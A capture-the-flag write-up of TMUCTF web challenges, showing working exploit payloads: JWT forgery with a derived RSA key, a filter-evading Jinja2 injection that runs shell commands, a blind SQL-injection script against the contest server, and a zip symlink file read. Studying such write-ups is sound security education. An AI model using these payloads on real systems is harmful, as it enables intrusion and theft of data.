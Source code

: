 ## Challenge Login
Step 1: /robots.txt -> get source

Step 2: input password = `0e1137126905` (payload)

Flag -> `TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`

## Challenge The Devil Never Sleeps

Step 1: `/sleepingpill` -> get jwt and public key

Step 2: format public key
File `key.pub`
```
-----BEGIN PUBLIC KEY-----
MIGsMA0GCSqGSIb3DQEBAQUAA4GaADCBlgKBjgD/////////////////////////
/////////////////////////////////////////////////////////////3//
///////////+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAECAwEAAQ==
-----END PUBLIC KEY-----
```
Step 3: Use RsaCtfTool to gen private key

`./RsaCtfTool.py --publickey ./key.pub --private`

Private key
```
-----BEGIN RSA PRIVATE KEY-----
MIICkAIBAAKBjgD/////////////////////////////////////////////////
/////////////////////////////////////3/////////////+AAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAECAwEAAQKBjSp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WA
Kn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqVVWqqlVVqqpVVaoAVf+q
AFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+q
AFX/qgBV/6oAVf+qAQJCAf//////////////////////////////////////////
////////////////////////////////////////////Akx/////////////////
////////////////////////////////////////////////////////////////
////////////////////AkIBgIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CA
f3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f38CTFVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqkCQRCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhC
EIQhBCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhCEIQhB
-----END RSA PRIVATE KEY-----
```
Step 4: Use jwt.io set `exp": 9999999999` and `"sleep": "true"`

JWT
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Step 5: `/flag` set Header Pill.
```
Pill: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Flag -> `TMUCTF{0h_51nn3rm4n_Wh3r3_Y0u_60nn4_Run_70?}`

## Challenge Injection
filter: `_ [] . request popen mro config " os` and space

Bypass filter by unicode

```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('id')|attr('read')()}}
```
decode -> `lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('id')|attr('read')()`

`ls$IFS-t` -> sort files by time

Payload
```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat$IFS/opt/tmuctf/r3zQnO1s31')|attr('read')()}}
```
Final -> decode base64

## Challenge Fake Registration
```py
import requests
import string
from random import choices

url ="http://130.185.123.246/register"
flag=""
padding=""
list_char = string.ascii_letters+string.digits

def random_str()->str:
  return ''.join(choices(list_char,k=7))

def create_user(i,padding):
    data = {
            "username":f"{padding}'||substr((select password from users),{i},1),'tai')--",
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        # print('done')
    except Exception as e:
        print(e)
def brute(char,padding):
    data = {
            "username":padding+char,
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        return r
    except Exception as e:
        print(e)

if __name__ == "__main__":
    for i in range(1,70):
        padding = random_str()
        # print(padding)
        create_user(i,padding)
        for char in string.printable:
            print(char,end='\r')
            if char!="'":
                r=brute(char,padding)
                #print(r.text)
                try:
                    if "UNIQUE constraint" in r.text:
                        flag+=char
                        padding+=char
                        print(flag)
                        break
                except Exception as e:
                    print(e)
```
Flag -> `MUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}`

## Challenge nano
Step 1: `/index.html` -> get path `/801910ad8658876d56f5c8b24a563096.php` (view-source)

Step 2: `/801910ad8658876d56f5c8b24a563096.php?flag_help=/dev/fd/10` -> get path `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php`

Step 3: `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php` and upload zip

Gen zip
```
ls -s /etc/ff3efa4307078c85678c6adee3b5f1b1af2ba16e/nanoflag/flag.txt payload

zip --symlinks payload.zip payload
```

Upload zip and access `/upload/random/payload`
Flag -> `TMUCTF{Z1P_5l1p_15_4_D4n63r0u5_4rch1v3_3x7r4c710N_Vuln3r4b1l17Y___4nd_4_f0rm_0f_D1r3c70rY_7r4v3r54L!!}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later
